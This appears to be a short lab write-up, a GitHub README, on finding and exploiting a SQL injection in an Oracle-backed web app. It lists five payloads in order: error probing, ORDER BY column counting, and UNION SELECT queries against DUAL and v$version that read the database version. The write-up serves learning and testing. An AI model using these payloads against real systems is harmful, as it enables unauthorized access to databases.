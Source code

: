 # SQL-injection-attack-querying-the-database-type-and-version-on-Oracle

(1) To be sure that it has an sql vulnerability: url' -> internal server error. That means it has a vulnerability
![image](https://user-images.githubusercontent.com/59218362/208419556-a6f17621-237e-48f5-b8b2-6ed3921c833a.png)

(2) To know the number of column: 'ORDER BY 3-- -> internal server error. It means there are 2 columns
![image](https://user-images.githubusercontent.com/59218362/208419394-038bbc5a-d0b3-43b3-a354-62f0b5d009fb.png)
![image](https://user-images.githubusercontent.com/59218362/208419254-4f09eb82-d337-4da7-b75c-7421953397dd.png)

(3) To know which column is data retrieving: ‘UNION SELECT NULL,'Data'--. But got error. It is because the database is oracle
![image](https://user-images.githubusercontent.com/59218362/208419051-fa25dbc1-36fd-4a9e-96ff-9ddbb13abde3.png)

(4) To know data retrieve in oracle database: 'UNION SELECT 'sajib','rajib' FROM DUAL--. See we find out 2 both 2 column are retrieving data
![image](https://user-images.githubusercontent.com/59218362/208418870-00c353a4-c3b8-457c-bea7-3cc0eb951824.png)

(5) To know the version of oracle database: 'UNION SELECT banner, banner FROM v$version--. Here two banner is for the 2 columns.
![image](https://user-images.githubusercontent.com/59218362/208418752-2b3a8c05-feac-4081-9b64-f13c018b5a91.png)

